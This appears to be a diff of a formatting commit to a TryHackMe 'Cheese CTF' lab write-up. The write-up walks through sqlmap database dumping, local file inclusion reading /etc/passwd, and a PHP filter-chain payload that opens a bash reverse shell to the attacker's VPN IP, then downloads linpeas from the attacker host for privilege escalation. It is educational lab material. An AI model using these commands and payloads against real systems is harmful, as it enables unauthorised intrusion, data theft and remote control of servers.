

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Easy/Cheese CTF/CheeseCTF.md, the part around the change printed below. Shown: that part at 92% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Easy/Cheese CTF/CheeseCTF.md
+++ b/Easy/Cheese CTF/CheeseCTF.md
@@ -1,20 +1,29 @@
-# As a traditional pentesing method, I first tried with directory enumeration where I found nothing. Simultaneously, I ran nmap looking for any open ports which gave more than 100+ ports. Hence, there was no clue in both of these tests. So now i decided to move towards sqli, since there was a login page and we had to find the user flag first, it means that we had to login as a user. Anyhow, lets try sqli now.
+# Cheese CTF
 
-Moving forward towards the SQLi, I ran the command: [sqlmap -u "http://<IP_ADDRESS>/login.php" --data="username=test&password=test" --batch --dump]
+## Challenge Information
+- **Challenge Name**: Cheese CTF
+- **Category**: Web Security & Privilege Escalation
+- **Difficulty Level**: Easy
+
+## Analysis
+
+As a traditional pentesing method, I first tried with directory enumeration where I found nothing. Simultaneously, I ran nmap looking for any open ports which gave more than 100+ ports. Hence, there was no clue in both of these tests. So now i decided to move towards sqli, since there was a login page and we had to find the user flag first, it means that we had to login as a user. Anyhow, lets try sqli now.
+
+Moving forward towards the SQLi, I ran the command: `sqlmap -u "http://<IP_ADDRESS>/login.php" --data="username=test&password=test" --batch --dump`
 Command Breakdown:
--> [sqlmap] : The tool being used, which automates the process of detecting and exploiting SQL injection vulnerabilities.
--> [-u "http://<IP_ADDRESS>/login.php"] : Specifies the target URL where the SQL injection will be tested.
--> [--data="username=test&password=test"] : Specifies the POST data being sent to the server. This simulates a login attempt with the username set to test and password set to test.
--> [--batch] : Runs the command in non-interactive mode. It automatically answers any prompts that sqlmap might generate, using the default or safest options. This is useful for automation or unattended testing.
--> [--dump] : Instructs sqlmap to dump the database contents if it successfully exploits the SQL injection vulnerability. This means it will retrieve and display the data stored in the database.
+-> `sqlmap` : The tool being used, which automates the process of detecting and exploiting SQL injection vulnerabilities.
+-> `-u "http://<IP_ADDRESS>/login.php"` : Specifies the target URL where the SQL injection will be tested.
+-> `--data="username=test&password=test"` : Specifies the POST data being sent to the server. This simulates a login attempt with the username set to test and password set to test.
+-> `--batch` : Runs the command in non-interactive mode. It automatically answers any prompts that sqlmap might generate, using the default or safest options. This is useful for automation or unattended testing.
+-> `--dump` : Instructs sqlmap to dump the database contents if it successfully exploits the SQL injection vulnerability. This means it will retrieve and display the data stored in the database.
 
 The detailed analysis on running this command is as follows:
-SQLMap tested the username parameter and detected that it is vulnerable to time-based blind SQL injection. The backend database management system (DBMS) was identified as MySQL (MariaDB fork). The current database was retrieved (users). SQLMap found one table named users in the users database. Columns in the users table were identified as [id, username, password]. The single entry in the users table was retrieved as [ID: 1, Username: comte, Password Hash: 5b0c2e1b4fe1410e47f26feff7f4fc4c]. SQLMap recognized the password hash as MD5. It used its default dictionary for a dictionary-based attack but failed to crack the hash.
-Moreover, it also gave a 302 redirect to [http://<IP_ADDRESS>/secret-script.php?file=supersecretadminpanel.html]. The link suggests that it is loading a file from a directory without any check which might result in LFI. So lets test it with the url [http://<IP_ADDRESS>/secret-script.php?file=/etc/passwd]. This showed some content on the webpage. It means that we can exploit it through LFI. In the content that we got from [/etc/passwd], there is something [comte:x:1000:1000:comte:/home/comte:/bin/bash], which seggests that this account has a shell (/bin/bash) and may be your entry point to gain local access.
+SQLMap tested the username parameter and detected that it is vulnerable to time-based blind SQL injection. The backend database management system (DBMS) was identified as MySQL (MariaDB fork). The current database was retrieved (users). SQLMap found one table named users in the users database. Columns in the users table were identified as `id`, `username`, `password`. The single entry in the users table was retrieved as `ID: 1, Username: comte, Password Hash: 5b0c2e1b4fe1410e47f26feff7f4fc4c`. SQLMap recognized the password hash as MD5. It used its default dictionary for a dictionary-based attack but failed to crack the hash.
+Moreover, it also gave a 302 redirect to `http://<IP_ADDRESS>/secret-script.php?file=supersecretadminpanel.html`. The link suggests that it is loading a file from a directory without any check which might result in LFI. So lets test it with the url `http://<IP_ADDRESS>/secret-script.php?file=/etc/passwd`. This showed some content on the webpage. It means that we can exploit it through LFI. In the content that we got from `/etc/passwd`, there is something `comte:x:1000:1000:comte:/home/comte:/bin/bash`, which seggests that this account has a shell (/bin/bash) and may be your entry point to gain local access.
 
-Now our next task is to upload a reverse shell on the server using the LFI. I tried uploading the shell by running a local server on my machine with a local port, but it did not worked. It means that there are some filters that are preventing me to upload any php shell. To bypass this, we have to use a script that generates different filter chains for the different payloads. I downloaded a script from github [https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py] that generates multiple chains while uploading the shell code. Make sure that you are running your port on netcat [nc -lvnp YOUR_PORT]. Now run the command [python3 php-reverse-shell.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_VPN_IP>/<YOUR_PORT> 0>&1'\"); ?>" | grep "^php" > payload.txt]. It will generate a lot of useful payloads. Now run the command [curl "http://<IP_ADDRESS>/secret-script.php?file=$(cat payload.txt)"]. This will give you a reverse shell in the directory [/var/www/html] on the terminal where you are running the netcat.
+Now our next task is to upload a reverse shell on the server using the LFI. I tried uploading the shell by running a local server on my machine with a local port, but it did not worked. It means that there are some filters that are preventing me to upload any php shell. To bypass this, we have to use a script that generates different filter chains for the different payloads. I downloaded a script from github `https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py` that generates multiple chains while uploading the shell code. Make sure that you are running your port on netcat `nc -lvnp YOUR_PORT`. Now run the command `python3 php-reverse-shell.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_VPN_IP>/<YOUR_PORT> 0>&1'\"); ?>" | grep "^php" > payload.txt`. It will generate a lot of useful payloads. Now run the command `curl "http://<IP_ADDRESS>/secret-script.php?file=$(cat payload.txt)"`. This will give you a reverse shell in the directory `/var/www/html` on the terminal where you are running the netcat.
 
-1. To get the user's flag, we have to search in his directory [/home/comte] that we also discovered previously. We have a [user.txt] in [/home/comte] but it says permission denied if we try to read it using cat command. So we need previlage escaltion now. For this, download [linpeas.sh] using the command [wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh]. Now run a python server [python3 -m http.server 8000 --bind <YOUR_VPN_IP>]. Now run [wget http://<YOUR_VPN_IP>:8000/linpeas.sh] in the target machine, but before running this, move to [cd /tmp] so that we are able to write in the target machine and also make sure that linpeas.sh is in the same directory where you are running the python server so that it gets copied to the target machine. Once the linpeas.sh is downloaded in the target machine, run [chmod +x linpeas.sh] to grant permissions to the file. Now execute it [./linpeas.sh]. The execution of this gave a long response, but it is very important for us to analyze its response. Deeply go through the response and you will observe some lines:
+1. To get the user's flag, we have to search in his directory `/home/comte` that we also discovered previously. We have a `user.txt` in `/home/comte` but it says permission denied if we try to read it using cat command. So we need previlage escaltion now. For this, download `linpeas.sh` using the command `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`. Now run a python server `python3 -m http.server 8000 --bind <YOUR_VPN_IP>`. Now run `wget http://<YOUR_VPN_IP>:8000/linpeas.sh` in the target machine, but before running this, move to `cd /tmp` so that we are able to write in the target machine and also make sure that linpeas.sh is in the same directory where you are running the python server so that it gets copied to the target machine. Once the linpeas.sh is downloaded in the target machine, run `chmod +x linpeas.sh` to grant permissions to the file. Now execute it `./linpeas.sh`. The execution of this gave a long response, but it is very important for us to analyze its response. Deeply go through the response and you will observe some lines:
 ```
 ╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
 ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
````
Also changed, not shown: other parts of Easy/Cheese CTF/CheeseCTF.md (+3 -3 lines).
